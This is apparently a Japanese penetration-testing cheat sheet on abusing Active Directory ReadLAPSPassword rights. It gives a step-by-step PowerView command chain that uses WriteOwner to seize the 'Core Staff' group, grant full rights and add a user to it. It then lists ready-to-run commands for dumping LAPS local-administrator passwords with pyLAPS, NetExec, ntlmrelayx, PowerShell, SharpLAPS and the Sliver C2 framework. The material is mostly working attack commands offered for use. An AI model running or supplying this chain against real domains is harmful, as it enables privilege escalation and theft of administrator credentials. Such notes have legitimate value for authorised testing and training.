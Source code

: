 # ReadLAPSPasswordの悪用

この悪用は、`GenericAll`または`AllExtendedRights`（またはドメイン単位の同期のための`GetChanges`と（`GetChangesInFilteredSet`または`GetChangesAll` の組み合わせ）を持つオブジェクトを、LAPS 用に構成されたターゲットコンピュータ上で制御する場合に実行できる。攻撃者はその後、コンピュータアカウントのLAPSパスワード（すなわち、コンピュータのローカル管理者のパスワード）を読み取ることができる。

![](../../image/image-20241024003055016.png)

侵害済みのユーザーが `Core Staff` グループに対して `WriteOwner` の権限をっているとき、`Core Staff` グループを制御でき、その後、自分自身または侵害した他のユーザーをそのグループに追加することができる。

## グループにユーザーを追加

そのユーザーとしてプロセスを実行していない場合は、ターゲットユーザーを完全に制御するユーザーとしてドメインコントローラーを認証する必要があるかもしれない。`Get-DomainObject` と組み合わせてこれを行うには、まず `PSCredential` オブジェクトを作成する。

```
$SecPassword = ConvertTo-SecureString '<Password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USERNAME>', $SecPassword)
```

グループの `OwnerIdentity`(オブジェクトの所有者) と `PrincipalIdentity` (オブジェクトのアクセス権)を変更します。

```
Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity <USERNAME> -Cred $cred
```

オブジェクトに対してアクセス権を与える

```
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity <USERNAME> -Cred $cred -Rights All
```

ユーザーをグループに追加

```
Add-DomainGroupMember -Identity 'CORE STAFF' -Members '<USERNAME>' -Cred $cred
```

グループに追加されているか確認

```
net group 'CORE STAFF'
```

# LAPSパスワードを取得する

## Linux

[pyLAPS](https://github.com/p0dalirius/pyLAPS) を使用して LAPS パスワードを取得

```
pyLAPS.py --action get -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" --dc-ip "<DC_IP>"
```

[NetExec](https://github.com/Pennyw0rth/NetExec)を使用してLAPSパスワードを取得

```
netexec ldap <DC_IP> -u "<USERNAME>" -p "<PASSWORD>" --module laps
```

[impacket-ntlmrelayx](https://github.com/fortra/impacket)を使用してパスワードを取得

```
impacket-ntlmrelayx -t ldaps://<DC_IP> --dump-laps
```

その他

[LAPSDumper](https://github.com/n00py/LAPSDumper)

[bloodyAD](https://github.com/CravateRouge/bloodyAD)

## Windows

Active Directory PowerShell モジュールを使用してパスワードを取得

```
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)モジュールを使用してパスワードを取得

```
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

```
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS)で一連の動作を自動で行う

```
SharpLAPS.exe /user:"<DOMAIN>\<USERNAME>" /pass:"<PASSWORD>" /host:"<DC_IP>"
```

## Sliver C2

Sliver C2にはArmoryというパッケージマネージャによって[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS)をターゲットマシンにアップロードせずに使用できる

```
sharplaps /user:<USERNAME> /pass:<PASSWORD> /host:<DC_IP>
```

